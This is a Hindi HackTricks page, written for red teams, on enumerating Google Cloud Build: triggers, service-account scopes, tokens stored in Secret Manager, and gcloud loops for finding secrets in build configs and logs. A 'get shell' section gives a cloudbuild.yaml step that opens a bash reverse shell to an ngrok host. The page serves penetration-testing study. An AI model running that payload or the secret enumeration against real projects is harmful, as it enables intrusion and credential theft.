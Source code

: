 # GCP - Cloud Build Enum

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफॉर्म है जो **सॉफ्टवेयर बिल्ड** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **स्रोत कोड रिपोजिटरीज** के साथ एकीकृत करता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को बिल्ड, टेस्ट, और स्वचालित रूप से डिप्लॉय करने की अनुमति देता है** और बिल्ड स्टेप्स और वर्कफ्लोज को कस्टमाइज करने की लचीलापन प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित होता है या सीधे एक बाहरी रिपोजिटरी से जुड़ा होता है** (Github, Bitbucket और Gitlab).

{% hint style="success" %}
मैंने यहाँ या Cloud Repositories से Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा क्योंकि जब रिपो डाउनलोड की जाती है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github को क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### इवेंट्स

Cloud Build ट्रिगर हो सकता है अगर:

* **पुश टू ए ब्रांच**: ब्रांच को स्पेसिफाई करें
* **पुश ए न्यू टैग**: टैग को स्पेसिफाई करें
* **पुल रिक्वेस्ट**: PR प्राप्त करने वाली ब्रांच को स्पेसिफाई करें
* **मैनुअल इनवोकेशन**
* **Pub/Sub संदेश:** टॉपिक को स्पेसिफाई करें
* **वेबहुक इवेंट**: एक HTTPS URL को एक्सपोज करेगा और अनुरोध को एक सीक्रेट के साथ प्रमाणित किया जाना चाहिए

### निष्पादन

तीन विकल्प हैं:

* yaml/json **जिसमें निष्पादित करने के लिए आदेशों का विवरण होता है**। आमतौर पर: `/cloudbuild.yaml`
* केवल एक ही जिसे वेब कंसोल और cli में "इनलाइन" स्पेसिफाई किया जा सकता है
* सबसे आम विकल्प
* अप्रमाणित पहुँच के लिए प्रासंगिक
* **Dockerfile** बिल्ड करने के लिए
* **Buildpack** बिल्ड करने के लिए

### SA अनुमतियाँ

**सर्विस अकाउंट के पास `cloud-platform` स्कोप होता है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे कि सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` का **उपयोग किया जाएगा।**

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी जाती हैं लेकिन इसे कुछ देना काफी आसान है:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### अनुमोदन

Cloud Build को बिल्ड निष्पादनों के लिए **अनुमोदन की आवश्यकता होने के लिए कॉन्फ़िगर किया जा सकता है** (डिफ़ॉल्ट रूप से अक्षम).

### कनेक्शन्स & रिपोजिटरीज

कनेक्शन्स बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जो **एक Github टोकन प्राप्त करने के लिए अनुमतियाँ मांगेगा** जिसे **Secret Manager के अंदर स्टोर किया जाएगा।**
* **GitHub Enterprise:** यह एक **GithubApp** इंस्टॉल करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक **प्रमाणीकरण टोकन** बनाया जाएगा और इस प्रोजेक्ट में एक S**ecret Manager** सीक्रेट के रूप में स्टोर किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और Read API एक्सेस टोकन प्रदान करना होगा** जिसे **Secret Manager में स्टोर किया जाएगा।**

एक बार कनेक्शन जनरेट हो जाने के बाद, आप इसे उस Github अकाउंट के एक्सेस वाली रिपोजिटरीज को **लिंक करने के लिए उपयोग कर सकते हैं।**

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस विधि से जुड़ी रिपोजिटरीज **केवल 2nd जनरेशन का उपयोग करने वाले Triggers में उपलब्ध हैं।**
{% endhint %}

### एक रिपोजिटरी कनेक्ट करें

यह **`कनेक्शन`** के रूप में समान नहीं है। यह **विभिन्न** तरीकों से एक Github या Bitbucket रिपोजिटरी तक **पहुँच प्राप्त करने की अनुमति देता है** लेकिन **कनेक्शन ऑब्जेक्ट जनरेट नहीं करता है, लेकिन यह एक रिपोजिटरी ऑब्जेक्ट (1st जनरेशन) जनरेट करता है।**

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### स्टोरेज

कभी-कभी Cloud Build ट्रिगर के लिए फाइलों को स्टोर करने के लिए **नया स्टोरेज जनरेट करेगा**। यह उदाहरण के लिए GCP के साथ होता है:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### शेल प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### सूचीकरण

आप **build configs और logs में संवेदनशील जानकारी पा सकते हैं**।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार वृद्धि

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुँच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का अनुसरण करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग तरकीबें साझा करें.

</details>
